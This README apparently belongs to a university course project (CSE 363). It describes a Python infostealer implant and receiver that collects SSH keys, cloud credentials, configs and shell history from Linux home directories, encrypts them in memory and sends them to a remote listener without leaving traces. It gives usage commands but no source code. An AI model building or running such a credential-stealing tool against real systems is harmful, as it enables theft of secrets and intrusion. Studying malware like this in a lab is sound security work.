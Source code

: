 # tmp363-infostealer

## Description
This project consists of two Python-based tools: `tmp363` (implant) and `server363` (receiver). Together, they simulate an infostealer malware that collects sensitive files from Linux user home directories and exfiltrates them to a remote server.

### tmp363 (Implant)

- Recursively scans all home directories under `/home/` for:
  - `~/.ssh/`
  - `~/.config/`
  - Cloud provider directories: `~/.aws/`, `~/.gcloud/`, `~/.azure/`
  - Shell history files matching `.*_history`

- Archives and compresses these files **in-memory** using Python’s `ZipFile` and `io.BytesIO`
- Encrypts the archive using Fernet (symmetric encryption) with a key loaded from `.env`
- Sends the encrypted archive to the server using a raw TCP socket
- Does not write anything to disk or print anything to stdout/stderr

### server363 (Receiver)

- Listens on a specified IP and port for incoming TCP connections
- Receives and decrypts the transmitted archive using the same Fernet key
- Extracts the contents to a folder named
```sh
YYYY-MM-DD:HH:MM:SS_<victim-ip>
```
- Keeps listening for the next client (handles one at a time)


## Usage

- Implant
``` sh
python3 tmp363.py <server_ip> <port>
```

- Server
``` sh
python3 server363.py <listen_ip> <port>
```

## Installation

### Prerequistes
- **Python 3.x**
- **pip** (Python package manager)


#### **Installation Steps**
1. **Clone the Repository**
  ```sh
  git clone https://github.com/kailash-anand/tmp363-infostealer.git
  cd tmp363-infostealer
  ```

2. **(Optional) Create a Virtual Environment**
  ```sh
  python3 -m venv venv
  source venv/bin/activate
  ```

3. **Install Dependencies**
  ```sh
  pip install cryptography
  pip install python-dotenv
  ```

## Notes
- All operations in the implant are performed in memory; no temporary files are created.
- Fernet provides authenticated symmetric encryption, ensuring confidentiality and integrity of exfiltrated data.
- The tools are intended only for academic use in controlled environments (Kali VM for CSE 363).



